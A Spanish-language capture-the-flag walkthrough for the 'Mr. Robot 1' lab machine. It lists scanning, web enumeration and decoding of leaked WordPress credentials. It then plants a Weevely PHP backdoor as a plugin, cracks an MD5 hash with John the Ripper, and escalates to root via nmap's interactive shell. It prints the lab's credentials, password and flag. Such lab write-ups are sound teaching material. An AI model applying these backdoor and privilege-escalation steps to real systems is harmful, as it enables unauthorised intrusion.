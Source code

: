 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=3CF700FF&width=400&height=80&lines=MR.ROBOT_1"></a>
</p>
  
<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/mr-robot-1,151/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/test?lang=es

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv ctf14.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/173256530-9e554740-e9d2-450e-8e1a-209d773c7247.png)

Puertos abiertos: [22,80,443]

- *Paso 2:* Enumerar directorios web con Dirb. 
```
dirb http://ctf14.root-me.org /usr/share/dirb/wordlists/small.txt
```
![2](https://user-images.githubusercontent.com/75953873/173256804-380ff8a7-8b69-4153-8ee8-8c1eb7c8eb0d.png)

URL objetivo: http://ctf14.root-me.org/license

![3](https://user-images.githubusercontent.com/75953873/173256860-82d25cc3-6a8c-4e59-97a8-cbe263df5162.png)

Credenciales ofuscadas a base64: **ZWxsaW90OkVSMjgtMDY1Mgo=**

- *Paso 3:* Decodificar credenciales con Python y Bash.

`Python:`
```python
import base64
key = 'ZWxsaW90OkVSMjgtMDY1Mgo='
print(base64.b64decode(key))
```

`Bash:`
```
echo 'ZWxsaW90OkVSMjgtMDY1Mgo=' | base64 -d
```
![4](https://user-images.githubusercontent.com/75953873/173257252-c7dac9d3-f612-44ff-b31b-9d9baf5d297e.png)

Usuario: `elliot`

Contraseña: `ER28-0652`

- *Paso 4:* Acceder al panel de administración de WordPress, generalmente se agrega `/wp-admin.php` o `/wp-login.php` al final del dominio.
```
http://ctf14.root-me.org/wp-login.php
```
![5](https://user-images.githubusercontent.com/75953873/173257567-b73aa894-5756-41d1-b73b-f31db5de3f3d.png)

Plugins **>** instalar plugins

![6](https://user-images.githubusercontent.com/75953873/173257615-a9b95d88-ca5a-4a92-95a3-3391c4bd38a3.png)

Agregar nuevo plugin **>** Subir plugin

![7](https://user-images.githubusercontent.com/75953873/173257639-ce85dec7-fc54-4830-88b4-f040fa379b14.png)

- *Paso 5:* Crear backdoor con Weevely.
```
weevely generate pass123 backdoor.php
```
![8](https://user-images.githubusercontent.com/75953873/173257694-583bc09c-8970-45bf-abd2-cd033643ef74.png)

- *Paso 6:* Subir backdoor como un plugin más.

![9](https://user-images.githubusercontent.com/75953873/173257782-8da08f9d-c687-458c-a84e-bb0cfd0ae0d0.png)

En el apartado de `Media` tenemos archivos e imágenes, el que nos interesa es el `backdoor.php` que acabamos de subir. Doble clic sobre él y copiamos la URL que esta en `Description`.

![10](https://user-images.githubusercontent.com/75953873/173257806-03d06d7d-9f12-4d0a-896a-daa654620609.png)

![11](https://user-images.githubusercontent.com/75953873/173257849-3f3aa920-9d27-4dd6-88fa-e26396948493.png)

URL: http://ctf14.root-me.org/wp-content/uploads/2022/06/backdoor.php

- *Paso 7:* Acceder al backdoor con Weevely.
```
weevely http://ctf14.root-me.org/wp-content/uploads/2022/06/backdoor.php pass123
```
![12](https://user-images.githubusercontent.com/75953873/173257930-15d0189a-e1bd-4a23-84df-7b79357ae5f5.png)

Entramos al direcorio `/home` **>** robot **>** `cat` para mostrar el contenido del archivo `password.raw-md5`.

![13](https://user-images.githubusercontent.com/75953873/173258021-b8bb555d-5578-4f35-a6ed-89c0c0a08a17.png)

Hash: `c3fcd3d76192e4007dfb496cca67e13b`

- *Paso 8:* Identificación de tipo de hash con Hash-Identifier.
```
hash-identifier
```
![14](https://user-images.githubusercontent.com/75953873/173258174-b4dc146e-bba1-4433-b52f-343b83020f9d.png)

Tipo de hash: **MD5**

- *Paso 9:* Desencriptar hash con JohnTheRipper y de forma online.

`JohnTheRipper:`
```
john --format=Raw-MD5 --wordlist=/home/whoami/crackMD5.txt hash.txt
```
![16](https://user-images.githubusercontent.com/75953873/173258469-18fcf953-77ba-4c07-b2e9-692086788ec8.png)

`Online:`
- https://hashtoolkit.com/decrypt-md5-hash/

![15](https://user-images.githubusercontent.com/75953873/173258477-324ff102-6b01-4c81-807b-6148b9fccbdd.png)

Clave desencriptada: 	`abcdefghijklmnopqrstuvwxyz`

- *Paso 10:* Acceder al servidor SSH remotamente, la contraseña es el hash descifrado.
```
ssh robot@ctf14.root-me.org 
```
![16](https://user-images.githubusercontent.com/75953873/173258600-90109f0c-79be-4b1d-b7a4-81e1f00e221f.png)

Entramos al direcorio `/usr/local/bin` e interactuamos con nmap.
```
cd /usr/local/bin
nmap --interactive
```
![18](https://user-images.githubusercontent.com/75953873/173258664-e6ba0c73-db36-4979-8844-351e89df0eeb.png)

Por último, escalamos privilegios con nmap y extraemos la llave (flag) del fichero `passwd`.
```
!sh
cat /passwd
```
![19](https://user-images.githubusercontent.com/75953873/173258754-b48703a8-ceef-46df-bd32-1979ec294639.png)

**KEY:** 9e5ddd93d307150a16a03d56ff319c6d

![8](https://user-images.githubusercontent.com/75953873/172520842-29a1669f-f89d-44b4-a818-297d7b1b472f.png)

